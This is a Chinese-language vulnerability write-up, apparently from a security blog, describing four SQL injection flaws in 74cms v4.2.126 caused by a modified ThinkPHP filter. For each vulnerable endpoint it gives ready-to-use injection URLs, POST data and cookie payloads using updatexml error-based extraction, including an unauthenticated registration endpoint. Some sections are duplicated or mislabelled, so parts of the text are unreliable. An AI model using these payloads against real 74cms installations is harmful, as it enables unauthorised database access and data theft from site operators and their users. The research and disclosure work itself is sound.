# 74cms v4.2.126-前台四处 sql 注入

> 原文：[http://book.iwonder.run/0day/74cms/新版 74cms v4.2.126-前台四处 sql 注入.html](http://book.iwonder.run/0day/74cms/新版 74cms v4.2.126-前台四处 sql 注入.html)

## 0x00 前言

厂商：74cms 下载地址：[http://www.74cms.com/download/index.html](http://www.74cms.com/download/index.html) 关于版本： 新版的 74cms 采用了 tp3.2.3 重构了，所以可知底层是 tp，74cms 新版升级是后台升级的，所以先将将升级方法。 注：此漏洞不用升级至最新版本也可使用。

## 0x01 74cms 升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包) 2， 将下载好的包进行安装 3， 进入后台点击查看如果不是最新版的话，请点击升级！ 4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决 5， 搜索文件 74cms\upload\Application\Admin\Controller\ApplyController.class.php 6， 查找所有$_SERVER['HTTP_HOST'] 改为 [http://baidu.com](http://baidu.com) 即可

## 0x02 概要

这个注入也是挺有趣的，如果不是我有比对源码的习惯的话，可能还找不到这个 74cms 独有的框架 sql 注入漏洞 : ) 这里我并不会脱离 74cms 重新讲一次相关的框架内容，所以读者最好，看看我之前的文章。 ThinkPHP3.2.3 框架实现安全数据库操作分析 [https://www.yuque.com/pmiaowu/bfgkkh/coglz1](https://www.yuque.com/pmiaowu/bfgkkh/coglz1) 先看完上面的文章，然后在看此文章，会更简单的了解清楚。

## 0x03 漏洞讲解

非常抱歉，让读者看到前面 3 节 不是很有营养的东西。 在前面最开始的时候，我说过我有对比源码，使用手册的情况。 所以这里我们继续在开始之前，我要使用在 74cms 这个代码里面写个例子，希望可以让你们看懂，因为文化水平不高=-=，写文章感觉和很多前辈差距挺大的。 为了能够更直观，这里开启调试 文件：74cms\upload\Application\Common\Conf\config.php 添加多一行

```
'SHOW_PAGE_TRACE'        =>  true, 
```


然后打开文件：74cms\upload\Application\Home\Controller\IndexController.class.php 添加代码：

```
$uid = I('GET.uid');
M('CompanyProfile')->field('companyname,logo')->where(array('uid'=>$uid))->find(); 
```





我感觉到这里可能有人要骂我了。 应该有人会： 你个瓜皮，你家审计可以自己加代码的？ 是的是的，的却不能加。我这样也是想让更多的人能够简单的看懂这个漏洞 那么我们通过这个也能知道一般这种情况，是没得注入的了，而且应为使用了系统函数 I 所以也是没有框架注入这一说。 这里又要重新重复讲解 I 函数的作用了 在我的眼中 I 函数就是一个为了解决框架底层设计问题的函数


神奇的 I 函数 路径:ThinkPHP\Common\functions.php 方法名：function I($name,$default='',$filter=null,$datas=null)



这个函数的主要功能为 3 个 1， 确定数据类型 2， 对数据进行循环取值 3， 调用 think_filter 函数进行过滤 think_filter 函数分析



```
例如：
    没有使用 think_filter 函数时
goods_name[0]=in&goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp

使用了 think_filter 函数时
  goods_name[0]=in &goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp
  注意：使用了 think_filter 函数时 in 后面是有空格的也就是说返回值是
goods_name[0]=in(空格)&goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp
而正是这个空格的问题，就可以修复掉可能发生的框架注入问题。 
```

接着我们直接打开文件：74cms\upload\ThinkPHP\Library\Think\Db\Driver.class.php



```
think_filter 函数与上图两者对比一下，是否发现多点了东西？
是的没错了。
74cms 修改了 tp 底层添加了
3 个新方法：
match
  match_mode
  match_with

也就是说这 3 个方法我们是可以绕过 I 函数的过滤的

接着查看：parseWhereItem( 方法 
```


使用的是直接字符串拼接的方式入库，故判断此漏洞可利用. 注意了上图我们可控制的点是 $str 而 $str 给双引号包含！！！！！！！ 最开始的时候，记得我说过么，系统默认 I 会过滤 “双引号” 而导致此注入不可用，那么就需要找一处不经过 I 函数或是说不过滤双引号的地方来构造漏洞。 这里我们重新修改一下例子： 打开文件： 74cms\upload\Application\Home\Controller\IndexController.class.php


```
输入 url: http://74cms.test/index.php?m=Home&c=index&a=index&uid[0]=match&uid[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a 
```



这样的话，这个注入就是可用的了。理解了这个以后，我们也算是挖到了 74cms 独有的框架漏洞。 接下来整理一下会发生注入的情况 M()->where($test)->xx 那么只要 where 中任意参数可控，并不会过滤 双引号即可！ 然后就没什么技术含量了使用 ide 进行搜索测试即可确定漏洞，经过一顿搜索以后



前端发现一共有四处，也就是说这个框架漏洞，可以利用的地方只有四处。 后端注入，除了挖 src，不然我都认为他是没有什么用。所以后端能不能利用我也不知道。我没去看 : )

## 0x04 74cms 独有框架漏洞第一处

文件：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php 方法：function company_focus($company_id) 是否需登录：需要 登录权限：普通用户即可 为了方便，我是直接后台注册账户的，因为本人穷，付不起短信费。 登录后台



注册完成以后登录前台即可 如果不登录的话，会显示这个样子 url:[http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus](http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus)



```
http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a 
```



看源码


打开文件： 74cms\upload\Application\Common\Model\PersonalFocusCompanyModel.class.php 方法：add_focus(


## 0x05 74cms 独有框架漏洞第二处

文件：74cms\upload\Application\Home\Controller\CompanyServiceController.class.php 方法：order_pay_finish( 是否需登录：需要 登录权限：企业用户即可 看源码


为了方便，我是直接后台注册账户的，因为本人穷，付不起短信费。




注册完成以后登录前台即可

```
url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a

如果不登录的话，会显示这个样子
url:http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus 
```


```
http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a 
```


看源码


打开文件： 74cms\upload\Application\Common\Model\PersonalFocusCompanyModel.class.php 方法：add_focus(


## 0x06 74cms 独有框架漏洞第二处

文件：74cms\upload\Application\Home\Controller\CompanyServiceController.class.php 方法：order_pay_finish( 是否需登录：需要 登录权限：企业用户即可 看源码


为了方便，我是直接后台注册账户的，因为本人穷，付不起短信费。




注册完成以后登录前台即可

```
url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a 
```



## 0x07 74cms 独有框架漏洞第三处

文件：74cms\upload\Application\Home\Controller\MembersController.class.php 方法：register( 是否需登录：不需要


```
url: http://74cms.test/index.php?m=&c=Members&a=register
post: 
reg_type=2&utype=2&ucenter=bind&unbind_mobile=1

cookie:
members_uc_info[reg_type]=1;members_uc_info[utype]=2;members_uc_info[mobile][0]=match;members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;

headers:
  Content-Type: application/x-www-form-urlencoded
  X-Requested-With: XMLHttpRequest 
```


```
这里我要大概讲一下参数的问题
post: 
reg_type=2            // 必须为 2 为了绕过一个注册判断，为 1 的话，会直接创建帐户，导致无法利用漏洞
utype=2         // 判断会员类型的也必须为 2 为 1 会直接创建一条数据，导致无法利用漏洞      
ucenter=bind           // 必须为 bind 因为要靠他，获取 cookie(members_uc_info)并且合并为$data 数组进行利用
  unbind_mobile=1       // 只要有此字段即可，只是单纯为了满足流程判断的

cookie:
members_uc_info[reg_type]=1;         // 必须为 1 满足流程需要
members_uc_info[utype]=2;         // 必须为 2 满足流程需要
members_uc_info[mobile][0]=match;    // 框架漏洞利用
members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;  // 这里输入注入语句

headers:  // 伪造 ajax 操作
  Content-Type: application/x-www-form-urlencoded
  X-Requested-With: XMLHttpRequest 
```

## 0x07 74cms 独有框架漏洞第四处

```
文件：74cms\upload\Application\Home\Controller\MembersController.class.php
方法：oauth_reg (
是否需登录：需要
登录权限：普通用户/企业用户都可
url: http://74cms.test/index.php?m=&c=Members&a=oauth_reg
post:
    username = 自己去平台随便注册个账号然后输入那个账号
    password = 自己去平台随便注册个账号然后输入那个密码
cookie:
    members_bind_info[type][0]=match;
members_bind_info[type][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a; 
```


看源码




## 四、参考链接

> [https://www.yuque.com/pmiaowu/bfgkkh/nzr6fl](https://www.yuque.com/pmiaowu/bfgkkh/nzr6fl)

